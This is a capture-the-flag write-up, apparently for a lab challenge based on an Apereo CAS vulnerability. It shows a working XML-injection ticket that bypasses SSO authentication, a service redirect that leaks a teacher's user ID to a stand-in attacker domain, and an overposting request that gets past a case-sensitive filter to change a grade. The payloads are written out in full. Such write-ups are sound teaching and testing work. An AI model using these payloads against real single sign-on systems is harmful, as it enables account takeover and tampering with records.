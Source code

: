 # Writeup
## Inspiration
Based on Apero CAS, CVE-2017-1000071

## SSO Docs
Reading the html of the login page, shows a comment about TODOs which includes updating the swagger docs. Swagger is a common tool for sharing API documentation and can be accessed on /swagger of the sso.
This includes the /register which gives a new account.

## Auth-Bypass
Given the randomly generated student-account given upon request, check the SSO flow
Find the /validate path in swagger docs
Discover the service and ticket params, given the error
Discover the TGT- is needed
Discover the XML injection
Craft bypass ticket
fx http://grade.vcap.me/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>8a998821-31c7-11ed-b7f1-0242c0a8c002</id><username>student57895</username></authenticationSuccess><authenticationFailure>

## Find teacher-userid
Create a login-url for a exfil service
fx http://sso.vcap.me/login?service=http://hackerdomain.tld/example.jpg
Upload as profile-picture instead of base64 url
Trigger teacher-bot to read your message
Use teacher-userid to authenticate as teacher

http://grade.vcap.me/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>2f22e014-3aa1-11ed-9918-0242ac1c0002</id><username>teacher51289</username></authenticationSuccess><authenticationFailure>

## Change grade
Send update with grade change instead of note change. Due to overposting this allows for changing the grade. There is a filter which can be bypassed by uppercasing "Grade":

{"name":"Fundamentals of Cyber Security","values":{"Grade":"A"}}